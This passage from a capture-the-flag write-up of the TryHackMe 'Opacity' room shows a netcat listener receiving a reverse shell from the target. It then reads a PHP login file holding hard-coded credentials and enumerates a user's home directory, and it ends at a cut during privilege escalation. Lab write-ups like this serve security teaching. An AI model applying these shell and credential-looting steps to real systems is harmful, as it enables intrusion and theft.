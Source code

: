 Ok! Now I get in the shell:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Opacity]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.38.80] 50942
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 07:55:41 up 54 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Privilege Escalation

I found the `login.php` file inside the `/var/www/html` directory and it contains the creds for the login function:

```tsx
$ cat /var/www/html/login.php
<?php session_start(); /* Starts the session */

        /* Check Login form submitted */
        if(isset($_POST['Submit'])){
                /* Define username and associated password array */
                $logins = array('admin' => 'oncloud9','root' => 'oncloud9','administrator' => 'oncloud9');
[REDACTED...]
```

But after login, there is no helpful information that can help me to exploit the system. So I get back to the shell and find the other ways out:

```tsx
$ ls -la /home/
total 12
drwxr-xr-x  3 root     root     4096 Jul 26  2022 .
drwxr-xr-x 19 root     root     4096 Jul 26  2022 ..
drwxr-xr-x  6 sysadmin sysadmin 4096 Feb 22 08:16 sysadmin
$ ls -l /home/sysadmin
total 8
-rw------- 1 sysadmin sysadmin   33 Jul 26  2022 local.txt
drwxr-xr-x 3 root     root     4096 Jul  8  2022 scripts
$ ls -l /home/sysadmin/scripts/
total 8
drwxr-xr-x 2 sysadmin root     4096 Jul 26  2022 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

Beside the `local.txt` and the `script.php` are restricted with `sysadmin` permission, I keep moving on the the `/lib/` directories:
